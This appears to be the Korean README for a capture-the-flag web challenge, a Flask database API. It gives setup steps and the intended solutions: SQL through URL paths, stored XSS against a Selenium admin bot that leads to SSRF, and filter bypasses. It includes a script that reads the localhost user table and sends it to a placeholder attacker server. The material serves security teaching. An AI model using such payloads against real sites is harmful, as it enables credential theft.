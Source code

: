 # Bot, bot
(닉네임뭐하지 제작)
## 개요
> Flask를 처음 배운 닉네임뭐하지는 DB API를 만들었습니다. 여러분은 취약점을 찾으실 수 있으신가요?

## 설치
`git clone` 이후 문제 디렉터리로 들어와서 다음 작업을 시작해주세요:
1. virtualenv 설치 : `python3 -m venv ./virtualenv`
2. Chromedriver 설치 - 운영체제에 맞게 설치해 주세요. (Ubuntu server에 경우 [이 글](https://somjang.tistory.com/entry/Ubuntu-Ubuntu-%EC%84%9C%EB%B2%84%EC%97%90-Selenium-%EC%84%A4%EC%B9%98%ED%95%98%EA%B3%A0-%EC%82%AC%EC%9A%A9%ED%95%98%EA%B8%B0)을 참고해 주세요)
3. 플래그 및 데이터베이스 설정 - 4개의 플래그, 4개의 데이터베이스가 있어야 합니다. /flag1.txt부터 /flag4.txt까지 플래그를 넣어주고, SQLite를 이용해서 /db/database1.db부터 /db/database4.db까지 스키마를 설정해 주세요. 
4. 자동실행을 위해서는 `run.sh`를 실행해 주세요.

## 의도한 풀이

출제의도: XSS및 SSRF

레벨 1은 API에 익숙해지기 위한 문제입니다. `/api`페이지로 들어가 사용법 예시를 보면, 경로를 이용해 SQL 쿼리를 실행시킬 수 있음을 알 수 있습니다. DB 전체 정보를 보기 위해 `/api/select/*/from/users`로 접속하면 전체 데이터베이스를 볼 수 있고, 관리자의 아이디와 비밀번호를 얻어 로그인하면 플래그를 얻을 수 있습니다.

레벨 2는 XSS를 통해 SSRF를 일으키는 문제입니다. `/error`에 메시지를 쓰면 관리자가 확인하는데(selenium 봇으로 구현했습니다), 이때 필터링이 없기 때문에 XSS가 발생합니다. 관리자는 *localhost*에서 작업중이기 때문에 API에 접근할 수 있고, 따라서 SSRF를 발생시킬 수 있습니다.

예시 코드는 다음과 같습니다:
```
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState === xhr.DONE) {
      document.location = '결과를 받을 서버 주소/?' + xhr.responseText;
  }
};
xhr.open('GET', 'http://127.0.0.1:10000/api/select/*/from/users');
xhr.send(); 
</script>
```

레벨 3과 4는 간단한 필터링 우회입니다. 
레벨 3의 SQL 필터는 `select * from users`를 `select id, password from users`로 고쳐서(다만 누가 admin인지 알 수 없기 때문에 모든 계정을 시도해봐야 합니다), 레벨 4의 XSS 필터는 `onload` 이벤트 핸들러 등을 사용해서 우회할 수 있습니다.
